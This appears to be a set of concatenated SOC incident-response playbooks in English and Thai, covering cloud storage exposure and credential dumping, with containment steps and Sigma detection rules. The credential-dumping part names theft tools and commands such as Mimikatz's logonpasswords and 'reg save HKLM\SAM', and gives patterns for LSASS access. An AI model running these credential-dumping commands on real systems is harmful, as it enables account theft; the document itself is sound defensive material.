| 3 | **Enable versioning** to preserve evidence | ☐ |
| 4 | **Tag** resource as `Status: Compromised` | ☐ |

**Block Public Access commands:**
```bash
# AWS S3
aws s3api put-public-access-block --bucket <BUCKET> \
  --public-access-block-configuration \
  BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true

# Azure Blob
az storage account update --name <ACCOUNT> --allow-blob-public-access false

# GCP GCS
gsutil iam ch -d allUsers gs://<BUCKET>
gsutil iam ch -d allAuthenticatedUsers gs://<BUCKET>
```

### 2.2 If Credentials Were Exposed

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Rotate ALL API keys, access keys, tokens found | ☐ |
| 2 | Check CloudTrail for use of exposed credentials | ☐ |
| 3 | If used, escalate to [PB-16 Cloud IAM](Cloud_IAM.en.md) | ☐ |

---

## 3. Eradication

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Revert to known-good bucket/container policy (from IaC) | ☐ |
| 2 | Rotate ALL credentials found in exposed storage | ☐ |
| 3 | Audit IAM permissions — restrict who can change access policies | ☐ |
| 4 | Remove unauthorized data copies if identified | ☐ |

---

## 4. Recovery

| # | Action | Done |
|:---:|:---|:---:|
| 1 | Enable account-level Block Public Access (AWS SCP, Azure Policy, GCP Org Policy) | ☐ |
| 2 | Deploy CSPM (Wiz, Prisma Cloud, AWS Security Hub, Defender for Cloud) | ☐ |
| 3 | Enable alerts for public storage creation / policy changes | ☐ |
| 4 | Tag sensitive data and enforce encryption-at-rest | ☐ |
| 5 | Implement IaC (Terraform/CloudFormation) with security guardrails | ☐ |
| 6 | Weekly storage access audit scans | ☐ |

---

## 5. IoC Collection

| Type | Value | Source |
|:---|:---|:---|
| Exposed storage resource | | CSPM / Console |
| IAM identity that made it public | | Audit logs |
| External IPs that accessed data | | Access logs |
| Data classification of exposed content | | DLP scan |
| Duration of exposure | | Audit logs |
| Volume of data accessed externally | | Access logs |

---

## 6. Escalation Criteria

| Condition | Escalate To |
|:---|:---|
| PII / customer data exposed | Legal + DPO (PDPA 72h) |
| Credentials / API keys exposed | CISO + IAM team |
| Source code exposed | CISO + Engineering lead |
| Data accessed by external IPs | Major Incident |
| Multiple storage resources exposed | Cloud team + SOC Lead |
| Intentionally made public by insider | [PB-14 Insider Threat](Insider_Threat.en.md) |

---

### CSPM Monitoring Pipeline

```mermaid
graph LR
    CSPM["🔍 CSPM"] --> Scan["📡 Scan daily"]
    Scan --> Finding["📋 Finding"]
    Finding --> Severity{"⚠️ Severity?"}
    Severity -->|Critical| Auto["🤖 Auto-remediate"]
    Severity -->|High| SOC["🎯 SOC triage"]
    Severity -->|Medium| Ticket["📝 Ticket"]
    style Auto fill:#27ae60,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

### Data Breach Notification (PDPA)

```mermaid
sequenceDiagram
    participant SOC
    participant DLP
    participant Legal
    participant DPO
    SOC->>DLP: Scan exposed storage
    DLP-->>SOC: PII found — 1200 records
    SOC->>Legal: Report data exposure
    Legal->>DPO: PDPA notification required
    DPO->>DPO: Prepare notification within 72h
    DPO-->>SOC: ✅ Notification filed
```

## Detection Rules (Sigma)

| Rule | File |
|:---|:---|
| Cloud Storage Public Access | [cloud_storage_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_storage_public_access.yml) |
| AWS S3 Public Access Enabled | [cloud_aws_s3_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_s3_public_access.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-16 Cloud IAM](Cloud_IAM.en.md)
- [PB-21 AWS S3](AWS_S3_Compromise.en.md)
- [PB-08 Data Exfiltration](Data_Exfiltration.en.md)
- [Data Governance Policy](../../07_Compliance_Privacy/Data_Governance_Policy.en.md)

## References

- [MITRE ATT&CK T1530 — Data from Cloud Storage](https://attack.mitre.org/techniques/T1530/)
- [AWS S3 Security Best Practices](https://docs.aws.amazon.com/AmazonS3/latest/userguide/security-best-practices.html)
- [Azure Blob Storage Security](https://learn.microsoft.com/en-us/azure/storage/blobs/security-recommendations)


---

## File: 05_Incident_Response/Playbooks/Cloud_Storage_Exposure.th.md

# Playbook: การเปิดเผยที่เก็บข้อมูลคลาวด์

**ID**: PB-27
**ระดับความรุนแรง**: สูง/วิกฤต | **หมวดหมู่**: ความปลอดภัยคลาวด์
**MITRE ATT&CK**: [T1530](https://attack.mitre.org/techniques/T1530/) (ข้อมูลจากที่เก็บคลาวด์), [T1537](https://attack.mitre.org/techniques/T1537/) (โอนข้อมูลไปบัญชีคลาวด์)
**ทริกเกอร์**: CASB alert, CSPM finding, ผู้ใช้รายงาน, TI match (leaked data)


## หลังเหตุการณ์ (Post-Incident)

- [ ] ใช้ CSPM เพื่อเฝ้า public bucket/blob ต่อเนื่อง
- [ ] บังคับ block public access เป็น default
- [ ] ตรวจสอบข้อมูลที่ถูกเปิดเผย (PII, credentials)
- [ ] อัพเดท bucket/blob policies ทั้งหมด
- [ ] แจ้ง PDPA/Legal ถ้ามี PII รั่วไหล
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง Multi-Cloud Containment

```mermaid
graph TD
    Alert["🚨 Exposure"] --> Cloud{"☁️ ผู้ให้บริการ?"}
    Cloud -->|AWS S3| S3["aws s3api put-public-access-block"]
    Cloud -->|Azure Blob| Blob["az storage account update"]
    Cloud -->|GCP GCS| GCS["gsutil iam ch"]
    S3 --> Verify["✅ ตรวจสอบ"]
    Blob --> Verify
    GCS --> Verify
```

### ผังจำแนกประเภทข้อมูล

```mermaid
sequenceDiagram
    participant SOC
    participant DLP as DLP/Macie
    participant Owner as Data Owner
    participant Legal
    SOC->>DLP: สแกนข้อมูลที่ exposed
    DLP-->>SOC: พบ PII + credentials
    SOC->>Owner: แจ้งเจ้าของข้อมูล
    SOC->>Legal: แจ้ง Legal + DPO
    Legal-->>SOC: ต้องแจ้ง PDPA ภายใน 72 ชม.
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 ที่เก็บคลาวด์สาธารณะ"] --> Cloud{"☁️ ผู้ให้บริการ?"}
    Cloud -->|AWS S3| S3["🪣 ตรวจ S3 Policy + ACL"]
    Cloud -->|Azure Blob| Blob["📦 ตรวจ Access Level"]
    Cloud -->|GCP GCS| GCS["🗂️ ตรวจ IAM + allUsers"]
    S3 --> Data{"📁 ข้อมูลสำคัญ?"}
    Blob --> Data
    GCS --> Data
    Data -->|PII / Secrets / ซอร์สโค้ด| Critical["🔴 P1 — บล็อกทันที"]
    Data -->|เอกสารภายใน| High["🟠 P2 — บล็อก + ประเมิน"]
    Critical --> Block["🔒 บล็อก Public Access ทันที"]
    High --> Block
    Block --> Investigate["🔍 ตรวจสอบ Access Logs"]
```

---

## 1. การวิเคราะห์

### 1.1 การประเมินการเปิดเผยตามคลาวด์

| คลาวด์ | ตรวจสอบ | คำสั่ง / เครื่องมือ |
|:---|:---|:---|
| **AWS S3** | Block Public Access | `aws s3api get-public-access-block` |
| **AWS S3** | Bucket Policy (`Principal: *`) | `aws s3api get-bucket-policy` |
| **Azure Blob** | Container access level | Portal → Storage → Containers |
| **GCP GCS** | `allUsers` binding | `gsutil iam get gs://<bucket>` |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| ทรัพยากรใดถูกเปิดเผย? | CSPM / Console | ☐ |
| ข้อมูลอะไรถูกจัดเก็บ? จำแนกประเภท | DLP scan | ☐ |
| เปิดเป็นสาธารณะนานเท่าไหร่? | Audit logs | ☐ |
| ใครทำให้เป็นสาธารณะ? | CloudTrail | ☐ |
| มีข้อมูลถูกเข้าถึงจากภายนอก? | Access logs | ☐ |
| มี credentials/secrets อยู่ในที่เก็บ? | Secrets scanner | ☐ |

### 1.3 ผลกระทบตามประเภทข้อมูล

| ประเภทข้อมูล | ความรุนแรง | ผลกระทบ |
|:---|:---|:---|
| **PII / ข้อมูลลูกค้า** | 🔴 วิกฤต | PDPA 72 ชม. |
| **Credentials / API keys** | 🔴 วิกฤต | หมุนเวียนทันที |
| **ซอร์สโค้ด** | 🔴 วิกฤต | ทรัพย์สินทางปัญญารั่วไหล |
| **เอกสารภายใน** | 🟠 สูง | ประเมินความเสี่ยง |

---

## 2. การควบคุม

### 2.1 การดำเนินการทันที (ภายใน 15 นาที)

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | **บล็อก public access** | ☐ |
| 2 | **เพิกถอน credentials ที่เปิดเผย** — หมุนเวียน secrets ทั้งหมด | ☐ |
| 3 | **เปิด versioning** เก็บหลักฐาน | ☐ |
| 4 | **ติดแท็ก** `Status: Compromised` | ☐ |

### 2.2 หาก Credentials ถูกเปิดเผย

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | หมุนเวียน API keys, access keys, tokens ทั้งหมด | ☐ |
| 2 | ตรวจ CloudTrail ว่า credentials ถูกใช้หรือไม่ | ☐ |
| 3 | หากถูกใช้ → ยกระดับไป [PB-16 Cloud IAM](Cloud_IAM.th.md) | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | คืนค่า policy ที่ถูกต้อง (จาก IaC) | ☐ |
| 2 | หมุนเวียน credentials ทั้งหมดที่อยู่ในที่เก็บ | ☐ |
| 3 | ตรวจสอบสิทธิ์ IAM — จำกัดผู้ที่เปลี่ยน access policy ได้ | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เปิด Block Public Access ระดับบัญชี (SCP / Azure Policy / GCP Org) | ☐ |
| 2 | Deploy CSPM (Wiz, Prisma Cloud, Security Hub) | ☐ |
| 3 | เปิด alerts สำหรับ public storage | ☐ |
| 4 | ติดแท็กข้อมูลสำคัญและบังคับ encryption | ☐ |
| 5 | ใช้ IaC (Terraform) พร้อม security guardrails | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| PII / ข้อมูลลูกค้ารั่วไหล | Legal + DPO (PDPA 72 ชม.) |
| Credentials ถูกเปิดเผย | CISO + ทีม IAM |
| ข้อมูลถูกเข้าถึงจาก IP ภายนอก | Major Incident |
| ทรัพยากรหลายรายการถูกเปิดเผย | Cloud team + SOC Lead |

---

### ผัง CSPM Monitoring Pipeline

```mermaid
graph LR
    CSPM["🔍 CSPM"] --> Scan["📡 Scan daily"]
    Scan --> Finding["📋 Finding"]
    Finding --> Severity{"⚠️ Severity?"}
    Severity -->|Critical| Auto["🤖 Auto-remediate"]
    Severity -->|High| SOC["🎯 SOC triage"]
    Severity -->|Medium| Ticket["📝 Ticket"]
    style Auto fill:#27ae60,color:#fff
    style SOC fill:#e74c3c,color:#fff
```

### ผัง Data Breach Notification (PDPA)

```mermaid
sequenceDiagram
    participant SOC
    participant DPO
    participant Legal
    participant Authority as คปdf/PDPC
    SOC->>DPO: 🚨 PII exposed
    DPO->>Legal: ประเมินขอบเขต
    Legal-->>DPO: ต้องแจ้งเจ้าของข้อมูล
    DPO->>Authority: แจ้งภายใน 72 ชม.
    DPO->>DPO: แจ้งผู้ได้รับผลกระทบ
    Authority-->>DPO: ✅ รับทราบ
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| Cloud Storage Public Access | [cloud_storage_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_storage_public_access.yml) |
| AWS S3 Public Access Enabled | [cloud_aws_s3_public_access.yml](../../08_Detection_Engineering/sigma_rules/cloud_aws_s3_public_access.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [แม่แบบรายงานเหตุการณ์](../../11_Reporting_Templates/incident_report.th.md)
- [PB-16 Cloud IAM](Cloud_IAM.th.md)
- [PB-08 การนำข้อมูลออก](Data_Exfiltration.th.md)

## Cloud Storage Risk Matrix

| Provider | Service | Common Misconfiguration |
|:---|:---|:---|
| AWS | S3 | Public bucket policy |
| Azure | Blob Storage | Public container |
| GCP | Cloud Storage | allUsers permission |

### Exposure Assessment Template

| Item | Check | Status |
|:---|:---|:---|
| Public access enabled | ☐ Yes / ☐ No | ⚠️/✅ |
| Sensitive data present | ☐ Yes / ☐ No | ⚠️/✅ |
| Access logs enabled | ☐ Yes / ☐ No | ⚠️/✅ |
| Encryption at rest | ☐ Yes / ☐ No | ⚠️/✅ |
| Data exposed duration | ______ hrs/days | - |
| Data download count | ______ | - |

### Remediation Priority

| Data Type | Response SLA | Notification |
|:---|:---|:---|
| PII/PHI | 1 hr fix | PDPA 72 hr |
| Credentials/Keys | 30 min | Rotate immediately |
| Internal docs | 4 hrs | Internal notice |
| Public data | 24 hrs | None required |

### Public Exposure Check Tools

| Provider | Tool | Auto-remediate |
|:---|:---|:---|
| AWS | Access Analyzer | ✅ via Config Rules |
| Azure | Defender for Cloud | ✅ via Policy |
| GCP | Security Command Center | ✅ via Org Policy |

## อ้างอิง

- [MITRE ATT&CK T1530 — Data from Cloud Storage](https://attack.mitre.org/techniques/T1530/)
- [AWS S3 Security Best Practices](https://docs.aws.amazon.com/AmazonS3/latest/userguide/security-best-practices.html)


---

## File: 05_Incident_Response/Playbooks/Credential_Dumping.en.md

# Playbook: Credential Dumping Response

**ID**: PB-36
**Severity**: Critical | **Category**: Credential Access
**MITRE ATT&CK**: [T1003](https://attack.mitre.org/techniques/T1003/) (OS Credential Dumping), [T1003.001](https://attack.mitre.org/techniques/T1003/001/) (LSASS Memory), [T1003.002](https://attack.mitre.org/techniques/T1003/002/) (SAM), [T1003.003](https://attack.mitre.org/techniques/T1003/003/) (NTDS)
**Trigger**: EDR alert (LSASS access), SIEM (Mimikatz signature), suspicious process accessing credential stores

> ⚠️ **CRITICAL**: Credential dumping means the attacker likely already has privileged access. Assume ALL credentials on the compromised host are stolen. Password reset is mandatory.

### Attack Kill Chain

```mermaid
graph LR
    A["1️⃣ Initial Access"] --> B["2️⃣ Privilege Escalation"]
    B --> C["3️⃣ Credential Dumping"]
    C --> D["4️⃣ Lateral Movement"]
    D --> E["5️⃣ Domain Dominance"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style C fill:#ff4444,color:#fff
    style D fill:#cc0000,color:#fff
    style E fill:#660000,color:#fff
```

### Common Credential Dumping Tools

```mermaid
graph TD
    CredDump["🔓 Credential Dumping"] --> Mimikatz["Mimikatz\nsekurlsa::logonpasswords"]
    CredDump --> ProcDump["ProcDump\nlsass.exe dump"]
    CredDump --> Comsvcs["comsvcs.dll\nMiniDump"]
    CredDump --> NtdsUtil["ntdsutil.exe\nAD database"]
    CredDump --> SecretsDump["secretsdump.py\nImpacket"]
    CredDump --> LaZagne["LaZagne\nBrowser/App creds"]
    CredDump --> RegSave["reg save\nSAM/SYSTEM hives"]
    style CredDump fill:#ff4444,color:#fff
    style Mimikatz fill:#cc3333,color:#fff
    style ProcDump fill:#cc3333,color:#fff
    style NtdsUtil fill:#cc3333,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Credential Dump Detected"] --> Verify{"Verify Alert"}
    Verify -->|"LSASS access"| LSASS["Check process accessing LSASS"]
    Verify -->|"SAM/NTDS"| Registry["Check registry/file access"]
    Verify -->|"Tool detected"| Tool["Identify tool: Mimikatz/ProcDump/etc"]
    LSASS --> Legit{"Legitimate process?"}
    Registry --> Legit
    Tool --> Legit
    Legit -->|"No — Confirmed dump"| Contain["🔴 CONTAIN IMMEDIATELY"]
    Legit -->|"Yes — Expected"| FP["Log as False Positive"]
    Contain --> Isolate["Isolate host from network"]
    Isolate --> ResetCreds["Force password reset ALL accounts on host"]
    ResetCreds --> Investigate["Full investigation"]
    style Alert fill:#ff4444,color:#fff
    style Contain fill:#cc0000,color:#fff
    style Isolate fill:#990000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant AD as AD Admin
    participant IR as IR Team
    
    EDR->>SOC: 🚨 LSASS access alert
    SOC->>SOC: Verify process & parent process
    SOC->>EDR: Pull process tree & memory dump
    SOC->>AD: Request logon audit for compromised host
    AD->>SOC: Return all accounts authenticated
    SOC->>IR: Escalate — credential dump confirmed
    IR->>AD: Force password reset (all affected accounts)
    IR->>SOC: Begin lateral movement hunt
    SOC->>EDR: Sweep for same tool across all endpoints
```

### Credential Dump Types

```mermaid
graph TB
    subgraph "Memory-Based"
        LSASS["LSASS Process\n(sekurlsa::logonpasswords)"]
        WDigest["WDigest\n(cleartext in memory)"]
        Kerberos["Kerberos Tickets\n(Pass-the-Ticket)"]
    end
    subgraph "File-Based"
        SAM["SAM Database\n(local accounts)"]
        NTDS["NTDS.dit\n(domain accounts)"]
        LSA["LSA Secrets\n(service accounts)"]
    end
    subgraph "Network-Based"
        DCSync["DCSync\n(replicate AD)"]
        LLMNR["LLMNR/NBT-NS\nPoisoning"]
        Kerberoast["Kerberoasting\n(SPN tickets)"]
    end
    style LSASS fill:#ff4444,color:#fff
    style NTDS fill:#ff4444,color:#fff
    style DCSync fill:#ff4444,color:#fff
```

### Response Timeline

```mermaid
gantt
    title Credential Dumping Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Alert triggered           :a1, 00:00, 5min
        Triage & verify           :a2, after a1, 10min
    section Containment
        Isolate host              :a3, after a2, 5min
        Disable compromised accounts :a4, after a3, 15min
    section Investigation
        Process tree analysis     :a5, after a4, 30min
        Lateral movement hunt     :a6, after a5, 60min
        Full credential audit     :a7, after a6, 60min
    section Recovery
        Mass password reset       :a8, after a7, 120min
        Enable Credential Guard   :a9, after a8, 60min
```

### Impact Assessment Matrix

```mermaid
graph TD
    Impact["Impact Assessment"] --> Local{"Local accounts only?"}
    Local -->|Yes| Low["🟡 Medium\nReset local admin passwords"]
    Local -->|"Domain accounts"| Domain{"Domain Admin compromised?"}
    Domain -->|No| Medium["🟠 High\nReset affected domain accounts"]
    Domain -->|Yes| DomAdmin{"KRBTGT / DC compromised?"}
    DomAdmin -->|No| High["🔴 Critical\nFull domain credential reset"]
    DomAdmin -->|Yes| Catastrophic["💀 Catastrophic\nFull AD rebuild required"]
    style Impact fill:#333,color:#fff
    style Catastrophic fill:#660000,color:#fff
    style High fill:#cc0000,color:#fff
```

---

## 1. Immediate Actions (First 15 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Isolate affected host (EDR network isolation preferred) | SOC T1 |
| 2 | Capture volatile memory before shutdown | SOC T2 |
| 3 | Identify ALL accounts that were logged into the host | SOC T2 |
| 4 | Disable/reset passwords for all identified accounts | AD Admin |
| 5 | Check for LSASS dump files on disk | SOC T2 |
| 6 | Alert IR team — potential domain compromise | SOC Manager |

## 2. Investigation Checklist

### Host Analysis
- [ ] Process tree: What process accessed LSASS? Parent process?
- [ ] Tool identification: Mimikatz, ProcDump, comsvcs.dll, Task Manager?
- [ ] Check for `.dmp` files in `%TEMP%`, `C:\Windows\Temp`, user Desktop
- [ ] Review PowerShell history: `Get-Content (Get-PSReadLineOption).HistorySavePath`
- [ ] Check Sysmon Event ID 10 (ProcessAccess to lsass.exe)
- [ ] Look for `reg save HKLM\SAM`, `reg save HKLM\SYSTEM` commands
- [ ] Check for ntdsutil.exe or vssadmin shadow copies

### Network Analysis
- [ ] Check for DCSync traffic (DRSUAPI replication)
- [ ] Look for LDAP queries for SPNs (Kerberoasting)
- [ ] Check for Pass-the-Hash (NTLM authentication with new source IPs)
- [ ] Review lateral movement (RDP, WMI, PsExec, SMB) from compromised host

### Active Directory Analysis
- [ ] Audit Kerberos TGT/TGS requests from compromised host
- [ ] Check for new/modified service accounts
- [ ] Review Group Policy for persistence (scheduled tasks, startup scripts)
- [ ] Verify KRBTGT account last password change date

## 3. Containment

| Scope | Action | Command |
|:---|:---|:---|
| **Host** | Network isolation via EDR | `Isolate-Endpoint -HostId <ID>` |
| **Accounts** | Force password reset | `Set-ADAccountPassword -Identity <user>` |
| **Kerberos** | Purge tickets | `klist purge` on all affected hosts |
| **Service accts** | Rotate credentials | Update all service account passwords |
| **Admin accounts** | Disable & recreate | New admin accounts with different names |

## 4. Eradication & Recovery

### Short-term
1. Reimage compromised host (do NOT trust cleanup alone)
2. Reset ALL passwords for accounts on the compromised host
3. Rotate service account credentials
4. Reset KRBTGT password **twice** (if domain admin compromised)
5. Revoke all active Kerberos tickets

### Long-term
1. Enable **Credential Guard** on all Windows 10/11 endpoints
2. Deploy **LSASS protection** (`RunAsPPL` registry key)
3. Implement **tiered admin model** (Tier 0/1/2)
4. Disable WDigest authentication (`UseLogonCredential = 0`)
5. Deploy **Privileged Access Workstations (PAWs)** for admin tasks

## 5. Post-Incident

### Lessons Learned
| Question | Answer |
|:---|:---|
| How did attacker gain initial access? | [Document] |
| Was Credential Guard enabled? | [Yes/No — if no, why?] |
| Were admin accounts properly tiered? | [Document gaps] |
| How long were credentials exposed? | [Timeline] |

### Hardening Checklist
- [ ] Credential Guard enabled on all domain-joined endpoints
- [ ] LSASS RunAsPPL enabled
- [ ] WDigest disabled
- [ ] Local admin passwords managed via LAPS
- [ ] Tiered admin model implemented
- [ ] Protected Users group configured for privileged accounts

## 6. Detection Rules (Sigma)

```yaml
# LSASS Memory Access Detection
title: LSASS Memory Access by Non-System Process
logsource:
    product: windows
    category: process_access
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess|contains:
            - '0x1010'   # PROCESS_QUERY_LIMITED_INFORMATION + PROCESS_VM_READ
            - '0x1410'   # + PROCESS_QUERY_INFORMATION
            - '0x1F0FFF' # PROCESS_ALL_ACCESS
    filter:
        SourceImage|endswith:
            - '\wmiprvse.exe'
            - '\taskmgr.exe'
            - '\procexp64.exe'
    condition: selection and not filter
    level: critical
```

```yaml
# SAM/SYSTEM Registry Hive Export
title: SAM Registry Hive Export
logsource:
    product: windows
    category: process_creation
detection:
    selection:
        CommandLine|contains|all:
            - 'reg'
            - 'save'
        CommandLine|contains:
            - 'HKLM\SAM'
            - 'HKLM\SYSTEM'
            - 'HKLM\SECURITY'
    condition: selection
    level: critical
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Sigma Rules Index](../../08_Detection_Engineering/README.md)
- [Lateral Movement Playbook](Lateral_Movement.en.md)
- [Account Compromise Playbook](Account_Compromise.en.md)
- [Privilege Escalation Playbook](Privilege_Escalation.en.md)
- [Brute Force Playbook](Brute_Force.en.md)
- [Tier 2 Runbook](../Runbooks/Tier2_Runbook.en.md)

## References
- [MITRE T1003 — OS Credential Dumping](https://attack.mitre.org/techniques/T1003/)
- [Microsoft — Credential Guard](https://learn.microsoft.com/en-us/windows/security/identity-protection/credential-guard/)
- [SANS — Detecting Mimikatz](https://www.sans.org/white-papers/)


---

## File: 05_Incident_Response/Playbooks/Credential_Dumping.th.md

# Playbook: การตอบสนอง Credential Dumping

**ID**: PB-36
**ความรุนแรง**: วิกฤต | **ประเภท**: Credential Access
**MITRE ATT&CK**: [T1003](https://attack.mitre.org/techniques/T1003/) (OS Credential Dumping), [T1003.001](https://attack.mitre.org/techniques/T1003/001/) (LSASS Memory), [T1003.002](https://attack.mitre.org/techniques/T1003/002/) (SAM), [T1003.003](https://attack.mitre.org/techniques/T1003/003/) (NTDS)
**Trigger**: EDR alert (LSASS access), SIEM (Mimikatz signature), กระบวนการที่เข้าถึง credential stores ผิดปกติ

> ⚠️ **วิกฤต**: Credential dumping หมายความว่าผู้โจมตีมี privileged access แล้ว สันนิษฐานว่า credentials ทั้งหมดบนเครื่องถูกขโมย ต้อง reset password ทันที

### Attack Kill Chain

```mermaid
graph LR
    A["1️⃣ Initial Access"] --> B["2️⃣ Privilege Escalation"]
    B --> C["3️⃣ Credential Dumping"]
    C --> D["4️⃣ Lateral Movement"]
    D --> E["5️⃣ Domain Dominance"]
    style A fill:#ffcc00,color:#000
    style B fill:#ff9900,color:#fff
    style C fill:#ff4444,color:#fff
    style D fill:#cc0000,color:#fff
    style E fill:#660000,color:#fff
```

### เครื่องมือ Credential Dumping ที่พบบ่อย

```mermaid
graph TD
    CredDump["🔓 Credential Dumping"] --> Mimikatz["Mimikatz\nsekurlsa::logonpasswords"]
    CredDump --> ProcDump["ProcDump\nlsass.exe dump"]
    CredDump --> Comsvcs["comsvcs.dll\nMiniDump"]
    CredDump --> NtdsUtil["ntdsutil.exe\nAD database"]
    CredDump --> SecretsDump["secretsdump.py\nImpacket"]
    CredDump --> LaZagne["LaZagne\nBrowser/App creds"]
    CredDump --> RegSave["reg save\nSAM/SYSTEM hives"]
    style CredDump fill:#ff4444,color:#fff
    style Mimikatz fill:#cc3333,color:#fff
    style ProcDump fill:#cc3333,color:#fff
    style NtdsUtil fill:#cc3333,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 ตรวจพบ Credential Dump"] --> Verify{"ตรวจสอบ Alert"}
    Verify -->|"LSASS access"| LSASS["ตรวจ process ที่เข้าถึง LSASS"]
    Verify -->|"SAM/NTDS"| Registry["ตรวจ registry/file access"]
    Verify -->|"พบเครื่องมือ"| Tool["ระบุเครื่องมือ: Mimikatz/ProcDump/อื่นๆ"]
    LSASS --> Legit{"Process ปกติ?"}
    Registry --> Legit
    Tool --> Legit
    Legit -->|"ไม่ — ยืนยันการ dump"| Contain["🔴 CONTAIN ทันที"]
    Legit -->|"ใช่ — คาดหวัง"| FP["บันทึกเป็น False Positive"]
    Contain --> Isolate["แยกเครื่องออกจากเครือข่าย"]
    Isolate --> ResetCreds["บังคับ reset password ทุกบัญชีบนเครื่อง"]
    ResetCreds --> Investigate["สืบสวนเต็มรูปแบบ"]
    style Alert fill:#ff4444,color:#fff
    style Contain fill:#cc0000,color:#fff
    style Isolate fill:#990000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant EDR
    participant SOC as SOC Analyst
    participant AD as AD Admin
    participant IR as IR Team
    
    EDR->>SOC: 🚨 LSASS access alert
    SOC->>SOC: ตรวจสอบ process & parent process
    SOC->>EDR: ดึง process tree & memory dump
    SOC->>AD: ขอ logon audit สำหรับเครื่องที่ถูกโจมตี
    AD->>SOC: ส่งรายการบัญชีที่ authenticated
    SOC->>IR: Escalate — ยืนยัน credential dump
    IR->>AD: บังคับ reset password ทุกบัญชีที่ได้รับผลกระทบ
    IR->>SOC: เริ่ม hunt lateral movement
    SOC->>EDR: Sweep หาเครื่องมือเดียวกันทุก endpoint
```

### ประเภท Credential Dump

```mermaid
graph TB
    subgraph "Memory-Based"
        LSASS["LSASS Process\n(sekurlsa::logonpasswords)"]
        WDigest["WDigest\n(cleartext ใน memory)"]
        Kerberos["Kerberos Tickets\n(Pass-the-Ticket)"]
    end
    subgraph "File-Based"
        SAM["SAM Database\n(local accounts)"]
        NTDS["NTDS.dit\n(domain accounts)"]
        LSA["LSA Secrets\n(service accounts)"]
    end
    subgraph "Network-Based"
        DCSync["DCSync\n(replicate AD)"]
        LLMNR["LLMNR/NBT-NS\nPoisoning"]
        Kerberoast["Kerberoasting\n(SPN tickets)"]
    end
    style LSASS fill:#ff4444,color:#fff
    style NTDS fill:#ff4444,color:#fff
    style DCSync fill:#ff4444,color:#fff
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Credential Dumping Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Alert triggered           :a1, 00:00, 5min
        Triage & verify           :a2, after a1, 10min
    section Containment
        แยกเครื่อง                :a3, after a2, 5min
        ปิดบัญชีที่ถูกโจมตี       :a4, after a3, 15min
    section Investigation
        วิเคราะห์ process tree    :a5, after a4, 30min
        Hunt lateral movement     :a6, after a5, 60min
        ตรวจสอบ credential ทั้งหมด :a7, after a6, 60min
    section Recovery
        Mass password reset       :a8, after a7, 120min
        เปิด Credential Guard     :a9, after a8, 60min
```

### การประเมินผลกระทบ

```mermaid
graph TD
    Impact["ประเมินผลกระทบ"] --> Local{"บัญชี local เท่านั้น?"}
    Local -->|ใช่| Low["🟡 ปานกลาง\nReset local admin passwords"]
    Local -->|"domain accounts"| Domain{"Domain Admin ถูกโจมตี?"}
    Domain -->|ไม่| Medium["🟠 สูง\nReset domain accounts ที่ได้รับผลกระทบ"]
    Domain -->|ใช่| DomAdmin{"KRBTGT / DC ถูกโจมตี?"}
    DomAdmin -->|ไม่| High["🔴 วิกฤต\nReset credential ทั้ง domain"]
    DomAdmin -->|ใช่| Catastrophic["💀 หายนะ\nต้อง rebuild AD ใหม่"]
    style Impact fill:#333,color:#fff
    style Catastrophic fill:#660000,color:#fff
    style High fill:#cc0000,color:#fff
```

---

## 1. การดำเนินการทันที (15 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | แยกเครื่องที่ได้รับผลกระทบ (EDR network isolation) | SOC T1 |
| 2 | เก็บ volatile memory ก่อนปิดเครื่อง | SOC T2 |
| 3 | ระบุบัญชีทั้งหมดที่ login อยู่บนเครื่อง | SOC T2 |
| 4 | ปิด/reset password สำหรับทุกบัญชีที่ระบุ | AD Admin |
| 5 | ตรวจหา LSASS dump files บน disk | SOC T2 |
| 6 | แจ้ง IR team — อาจเป็น domain compromise | SOC Manager |

## 2. รายการตรวจสอบการสืบสวน

### การวิเคราะห์ Host
- [ ] Process tree: process อะไรเข้าถึง LSASS? Parent process?
- [ ] ระบุเครื่องมือ: Mimikatz, ProcDump, comsvcs.dll, Task Manager?
- [ ] ตรวจหาไฟล์ `.dmp` ใน `%TEMP%`, `C:\Windows\Temp`, Desktop
- [ ] ตรวจ PowerShell history: `Get-Content (Get-PSReadLineOption).HistorySavePath`
